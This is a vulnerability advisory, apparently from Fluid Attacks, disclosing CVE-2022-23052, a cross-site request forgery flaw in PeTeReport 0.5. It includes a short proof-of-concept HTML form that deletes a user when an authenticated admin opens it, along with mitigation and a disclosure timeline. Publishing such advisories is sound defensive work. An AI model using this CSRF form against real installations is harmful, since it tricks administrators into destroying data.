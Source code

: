 ```yaml
---
slug: advisories/jett/
title: PeTeReport 0.5 - Cross-site request forgery
authors: Oscar Uribe
writer: ouribe
codename: jett
product: PeTeReport 0.5
date: 2022-02-09 12:00 COT
cveid: CVE-2022-23052
severity: 4.3
description: PeTeReport 0.5 - Cross-site request forgery
keywords: Fluid Attacks, Security, Vulnerabilities, PeTeReport
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                 |
| --------------------- | ----------------------------------------------- |
| **Name**              | PeTeReport 0.5 - Cross-site request forgery     |
| **Code name**         | [Jett](https://en.wikipedia.org/wiki/Joan_Jett) |
| **Product**           | PeTeReport                                      |
| **Affected versions** | Version 0.5                                     |
| **Fixed versions**    | Version 0.7                                     |
| **State**             | Public                                          |
| **Release date**      | 2022-02-23                                      |

## Vulnerability

|                       |                                                                                               |
| --------------------- | --------------------------------------------------------------------------------------------- |
| **Kind**              | Cross-site request forgery                                                                    |
| **Rule**              | [007. Cross-site request forgery](https://docs.fluidattacks.com/criteria/vulnerabilities/007) |
| **Remote**            | Yes                                                                                           |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N/E:X/RL:X/RC:X                                    |
| **CVSSv3 Base Score** | 4.3                                                                                           |
| **Exploit available** | No                                                                                            |
| **CVE ID(s)**         | [CVE-2022-23052](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-23052)               |

## Description

PeteReport **Version 0.5** contains a Cross Site Request Forgery (CSRF)
vulnerability allowing an attacker to trick users into
deleting users, products, reports
and findings on the application.

## Proof of Concept

Steps to reproduce

1. Create a malicious html file with the following content.

    ```html
    <html>
    <body>
    <script>history.pushState('', '', '/')</script>
        <!--Change ID -->
        <form action="https://127.0.0.1/configuration/user/delete/:id">
        <input type="submit" value="Submit request" />
        </form>
    </body>
    </html>
    ```

2. If an authenticated admin visits the malicious url,
   the user with the correspond id will be deleted.

System Information

* Version: PeteReport Version 0.5.
* Operating System: Docker.
* Web Server: nginx.

## Exploit

There is no exploit for the vulnerability but can be manually exploited.

## Mitigation

An updated version of PeteReport is available at the vendor page.

## Credits

The vulnerability was discovered by [Oscar
Uribe](https://co.linkedin.com/in/oscar-uribe-londo%C3%B1o-0b6534155) from the Offensive
Team of  `Fluid Attacks`.

## References

**Vendor page** <https://github.com/1modm/petereport>

**Issue** <https://github.com/1modm/petereport/issues/34>

## Timeline

<time-lapse
  discovered="2022-02-07"
  contacted="2022-02-07"
  replied="2022-02-09"
  confirmed=""
  patched="2022-02-09"
  disclosure="2022-02-23">
</time-lapse>
